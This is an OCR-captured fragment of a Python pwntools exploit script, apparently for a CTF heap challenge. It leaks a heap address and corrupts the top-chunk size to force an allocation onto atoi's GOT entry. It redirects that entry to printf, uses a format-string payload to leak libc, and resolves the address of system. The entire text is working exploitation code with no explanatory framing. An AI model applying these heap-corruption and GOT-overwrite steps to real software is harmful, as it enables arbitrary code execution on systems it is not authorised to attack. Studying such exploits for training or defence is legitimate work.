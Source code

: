 ```python

heap_base = leak_heap -  0x8

top_chunk = heap_base +  224  # (header(8) + data(64))*3

log.success("leak_heap:"  + hex(heap_base))

log.success("top_chunk:"  + hex(top_chunk))

s.send("B"*64)

s.recvuntil("Host:\n")

s.sendline("\xff\xff\xff\xff")

s.recvuntil(">>\n")

size = atoi_got - top_chunk -  8  -  4

s.sendline("1")

s.recvuntil(":\n")

s.sendline(str(size))

s.recvuntil(">>\n")

s.sendline("1")

s.recvline(":\n")

s.sendline("8")

s.recvline(":\n")

s.sendline("AAAA"+p32(printf_plt))

s.recvuntil(">>\n")

s.sendline("1")

s.recvline(":\n")

payload = p32(printf_got)+"k"+"%6$s"

s.sendline(payload)

s.recvuntil("k")

leak_printf=u32(s.recv()[:4])

log.success(hex(leak_printf))

base = leak_printf - libc.symbols['printf']

log.success(hex(base))

system = base + libc.symbols['system']

log.success(hex(system))

s.sendline("AAA")

```